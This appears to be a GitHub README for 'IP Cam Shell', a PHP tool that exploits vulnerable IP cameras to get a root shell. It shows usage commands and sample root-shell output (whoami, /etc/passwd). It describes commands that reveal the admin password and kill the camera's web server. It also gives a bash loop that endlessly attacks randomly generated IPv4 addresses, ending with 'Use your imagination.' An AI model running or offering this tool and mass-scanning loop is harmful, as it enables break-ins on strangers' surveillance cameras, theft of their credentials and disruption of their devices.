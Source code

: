 IP Cam Shell
=======

IPCS is a command line script for testing and exploiting a wide range of IP cameras as demonstrated by Craig Heffner in "Exploiting Surveillance Cameras Like a Hollywood Hacker". See the slides here: https://media.blackhat.com/us-13/US-13-Heffner-Exploiting-Network-Surveillance-Cameras-Like-A-Hollywood-Hacker-WP.pdf

Requirements
=======

 * PHP 5
 * A distribution of Linux. I haven't and won't test this on Windows.

Usage
=======

Basic Usage
-------

Using IPCS is pretty straight forward. You pass the URL to ipcs.php via the -u option. 

```
$ php ipcs.php -u http://192.168.0.3:8080
```

If the camera is vulnerable you'll be dropped in to a "shell" as root and be able to exploit the camera further.

```
$ php ipcs.php -u http://192.168.0.3:8080
Those who do not understand UNIX are condemned to reinvent it, poorly. — Henry Spencer
ipcamshell>
```

It's very much like being logged in to a stripped down Unix server as root.

```
ipcamshell> whoami
root
ipcamshell> id
uid=0(root) gid=0(root)
ipcamshell> ls /
bin
dev
etc
lib
linuxrc
mnt
opt
proc
sbin
scripts
tmp
usr
var
ipcamshell> cat /etc/passwd
root:x:0:0:Linux User,,,:/:/bin/sh
```

Use `quit`, `exit`, or `^C` to exit.

Further Attacks
-------
Of course it wouldn't be very fun without the ability to login and view the camera... 

```
ipcamshell> getadminpass
Username: admin
Password: hunter2
```

If you wish to kill the web server (to prevent someone from accessing the web interface temporarily), run the `killswitch` command. Note that the camera will continue to record regardless of this. Shutting the server down *might* switch the camera off, although that's complete speculation.



If the camera isn't vulnerable, the server isn't up, or the internet hates you, you'll recieve the following message:

```
Sorry, the server specified isn't vulnerable.
```

Automation
=======

IPCS has the potential to be automated in different ways. This, I'm going to leave to you. The `-c` option won't drop you in to a shell after successfully exploiting a server, and the `-g` option surpresses the "Sorry, the server specified isn't vulnerable." messages for failed attempts.

As an example, the following bash script will forever try to attack randomly generated IPv4 addresses.

```
#!/bin/bash
while true; do export ip=$((RANDOM%256)).$((RANDOM%256)).$((RANDOM%256)).$((RANDOM%256)) && echo "Trying $ip..." && php ipcs.php -c 1 -g 1 -u http://$ip; done;
```

This is slow, and will likely yield nothing without *extremely* good luck. Use your imagination. :)

Note
=======
I do not claim the description or purpose of this tool to be 100% accurate. If you see anything which is incorrect in this document, please submit a pull request or open a new issue.
